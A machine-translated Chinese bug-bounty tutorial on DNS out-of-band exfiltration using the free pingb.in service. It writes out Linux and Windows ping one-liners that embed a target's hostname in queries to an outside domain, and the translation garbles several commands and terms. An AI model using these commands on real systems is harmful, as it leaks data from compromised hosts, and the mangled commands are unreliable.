



# 一个简单的 DNS OOB 出口解决方案，或 pingb.in (life)hack

> 原文：<https://infosecwriteups.com/a-simple-dns-oob-exfil-solution-or-pingb-in-life-hack-45e6aa44fc49?source=collection_archive---------3----------------------->

有时候你想从生活中得到更多的东西，我不能帮你，但有时候你想从寻找臭虫中得到更多的东西，比如 P1 臭虫，RCE-s 和 SSRF-s 往往属于这种类型。我不能帮你找到那些 P1 错误，但是希望这篇文章能帮助你在面临某些限制时利用它们。

DNS OOB 出口是一个严重的错误猎人的武器库的重要组成部分。但是这种类型的外发连接旁路需要您设置一种方式来接收对您所拥有的服务器的 DNS 查询，您可以在那里记录传入的流量以供以后查看(指的是 burp collaborator 的唯一缺点，它可以在随机时间退出，或者您的计算机可能会崩溃，ISP 问题等。).虽然有一个免费的域名提供商，但我发现所有的教程都要求你使用付费的(据我所知，我很努力地寻找，甚至替代解决方案也让我头疼)，而且你已经在为你的 vps 服务器付费了，不管你有什么其他的“常规”账单，那么如果你不想为另一件事付费，该怎么办呢？嗯，我实际上找到了这个解决方案后，克制自己打破了我的键盘沮丧，我不能让免费域名提供商的 DNS 配置工作，根据我的理解，上述教程中的付费 DNS 配置被用来代替。另外，像 bind9 这样的选择也让我失望了，或者说我让他们失望了。不管怎样，都有解决的办法。

这种简单的解决方案基本上不需要任何配置，因此真正实现了零挫折。是的，你没看错，没有配置，甚至没有网络知识(虽然这将是有帮助的，只是一般来说)，它可以通过以下链接获得:

[http://pingb.in](http://pingb.in/)

访问该网站时，您的地址栏中会出现以下内容:

【http://pingb.in/randomstring 号

现在，在页面上您会看到各种选项。如您所见，乍一看，DNS 数据导出存在一些限制:

失败的示例:

如果你这样做:

# ping“uname”。

你什么也得不到，没有任何形式的回应。

成功范例:

但是以上面的例子为例，输入以下内容:

# ping randomstring

现在，您可以在输出中看到(尽管有错误，并且源 ip 是目标使用的 DNS 解析器):

当然，对于其他数据导出，可以尝试这样做(分别从 linux 和 windows cmd 提示符下)

# ping randomstring . ` hostname ` . ns . ping b . in

c:\ > cmd/v/c " hostname > temp & & set/p MYVAR = < temp & & set FINAL = ae0f 8858 ee 70 fbfff 1d 8 B3 E1 d 90 a。！MYVAR！. ns.pingb.in && ping！决赛！”

并检查[http://pingb.in/random-string-that-you-used](http://pingb.in/random-string-that-you-used)并查看输出。

给你。它是免费的，不需要任何设置，它使用 ping，默认情况下任何操作系统都可以使用，如果你的电脑崩溃了，你可以访问:【http://pingb.in/random-string-that-you-used】T2，你仍然可以等待 pingbacks。它似乎会持续很长时间，但是如果有太多的 pingbacks，当你刷新页面时，它可能会将所有内容都删除。要记住的是，你应该密切关注它，并在计算机崩溃后立即打开页面，以避免潜在的遗漏 pingbacks。

额外的想法或我希望我在 RCE 自动测试一个非常大的子域列表时考虑的:当你想知道 pingback 的来源时:

ping randomstring . target-subdomain . target . com . ns . pingb in